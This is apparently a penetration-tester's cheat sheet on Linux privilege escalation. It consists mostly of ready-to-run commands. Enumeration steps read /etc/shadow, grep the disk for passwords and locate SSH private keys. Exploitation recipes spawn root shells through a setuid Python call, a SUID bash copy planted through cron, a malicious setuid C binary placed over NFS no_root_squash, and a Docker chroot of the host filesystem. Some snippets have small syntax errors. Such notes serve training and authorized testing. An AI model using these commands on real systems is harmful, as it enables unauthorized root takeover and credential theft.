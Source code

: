 # Linux privilege escalation

## Manual enumeration

### User

```text
whoami
id
history
```

### Other Users

```text
cat /etc/passwd
who
```

### Privileges

```text
sudo -l
cat /etc/sudoers
```

### File system

```text
pwd (current location)
echo $PATH
```

### Hostname

```text
hostname
```

### OS and architecture

```text
cat /etc/issue
cat /etc/*-release
uname -a
lscpu
```

### Processes and services

```text
ps aux
```

#### pspy

pspy allows you to see commands run by other users, cron jobs, etc. as they execute.

{% embed url="https://github.com/DominicBreuker/psp" %}

```text
# print events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```

### Network

```text
ifconfig OR ip a (interfaces)
route OR route l (routing table)
netstat -ano OR ss -anp (active connections)
arp -a
```

### Applications/patch levels/drivers/kernel modules

```text
dpkg -l
lsmod (lists all kernel modules loaded)
/sbin/modinfo libata (more info on specific kernel modules - libata in this example)
```

### Readable/writeable directories

```text
find / -writeable -type d 2>/dev/null
```

### Unmounted disks

```text
mount
cat /etc/fstab (drives mounted at boot)
lsblk (all available disks)
```

### Sensitive files

```text
history
cat /etc/passwd 
cat /etc/shadow 
cat /etc/group 
```

### Passwords

Search the file system for passwords.  Try additional search terms \(pass, etc.\).

```text
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

### SSH keys

Search the filesystem for SSH keys.  Public keys are typically stored in the "authorized\_keys" folder, private keys are stored as "id\_rsa". 

```text
find / -name id_rsa* 2> /dev/null
find / -name authorized_keys* 2> /dev/null
```

## Automated tools

```text
LinPeas.sh
LinEnum.sh
Linux Exploit Suggester
LinuxPrivChecker.py
```

## Exploitation paths

### SUID Files

SUID files allow individuals to execute files using the privileges of another user.  They are identifiable by an "s" in the third character of the root permissions for a file.  You can search manually with:

```text
find / -perm -u=s -type f 2>/dev/null
```

If you find identify a SUID file, check [GTFO bins](https://gtfobins.github.io/) for exploits

### Capabilities

The exploitation for capabilities is similar to that of SUID files.  Search for capabilities with:

```text
getcap -r / 2>/dev/null
```

Look for "+ep" at the end of any returned items.  If present, exploitation possible.

### Execution

Run Python to escalate

```text
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")
```

Other possibly exploitable capabilities include perl, tar, openssl \(check [GTFO bins](https://gtfobins.github.io/)\)

### Scheduled Tasks

```text
cat /etc/cron*
cat /etc/crontab
systemctl list-timers --all
```

Columns represent minute, hour, day of month, month, day of week.  Asterisks in columns indicate "all", asterisks in all fields indicates that the task runs every minute/hour/day of month/month/day of week

#### Exploitation

First, check the file type using the `file` command and whether or not you have write access.  Sometimes replacing the file with one created on your attacking machine is easier than modifying the file that is in place. If so, rename the current file as \*.old and use wget to replace with the version created on your attack machine.

```text
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > script
**Wait for the job to execute, then
/tmp/bash -p
```

### NFS root squashing

Check `cat /etc/exports` for results indicating "no\_root\_squash", indicating folders that are shareable and can be mounted. If available, remote commands are executed as root.

#### Exploitation

From the attacking machine: 

Search for mountable shares 

```text
showmount -e ipaddress
```

Create a new directory:

```text
mkdir /tmp/mntme
```

 Mount the folder: 

```text
mount -o rw, vers=2 ipaddress:/tmp /tmp/mountme
```

Create malicious file:

```text
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; /tmp/mountme/x.c
```

Compile the file:

```text
gcc /tmp/mountme/x.c -o /tmp/mountme/x
```

Return to the victim machine, navigate to the target directory \(/tmp\), and execute the file

```text
./x
```

### Docker

If you are in the Docker group, check to see which containers are available:

```text
docker image ls
```

Run the image:

```text
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


